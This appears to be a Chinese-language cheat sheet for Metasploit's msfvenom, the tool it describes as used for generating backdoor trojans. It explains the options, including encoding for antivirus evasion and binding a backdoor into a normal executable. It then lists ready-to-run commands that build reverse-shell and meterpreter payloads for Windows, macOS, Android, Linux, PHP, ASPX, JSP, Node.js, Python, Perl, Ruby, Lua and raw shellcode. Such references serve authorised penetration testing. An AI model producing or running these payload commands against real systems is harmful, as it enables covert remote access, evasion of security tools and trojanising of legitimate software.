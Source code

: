 Kali中的 msfvenom 取代了msfpayload和msfencode，常用于生成后门木马

msfpayload是MSF攻击荷载生成器，用于生成shellcode和可执行代码。
msfencode是MSF编码器。

---

一 、msfvenom 常用参数

-l
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all

-p
指定需要使用的payload(攻击荷载)。

-f
指定输出格式

Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；

Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；

-e
指定需要使用的encoder（编码器）编码免杀。

-a
指定payload的目标架构

选择架构平台:x86 | x64 | x86_64
Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe

-o
保存payload文件输出。

-b
设定规避字符集，比如: '\x00\xff'避免使用的字符

-n
为payload预先指定一个NOP滑动长度

-s
设定有效攻击荷载的最大长度生成payload的最大长度，就是文件大小。

-i
指定payload的编码次数

-c
指定一个附加的win32 shellcode文件

-x
指定一个自定义的可执行文件作为模板
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-k
保护模板程序的动作，注入的payload作为一个新的进程运行
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-v
指定一个自定义的变量，以确定输出格式

---

二、各平台生成payload命令

---

这些都是各个平台生成反向shell后门文件的命令。

Windows

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp

LHOST=192.168.3.33 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

---

Mac

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho

---

Android

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567  -o payload.apk



---

Powershell

msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

---

Linux

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf

---

php

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1  LPORT=8888  -f raw > shell.php



---

aspx

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx

---

JSP

msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.jsp

---

war

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war

---

nodejs

msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.js

---

python

msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.py

---

perl

msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.pl

---

ruby

msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

---

lua

msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

---

windows shellcode

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---

linux shellcode

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---

mac shellcode

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp  LHOST=192.168.1.1  LPORT=4567 -f c

---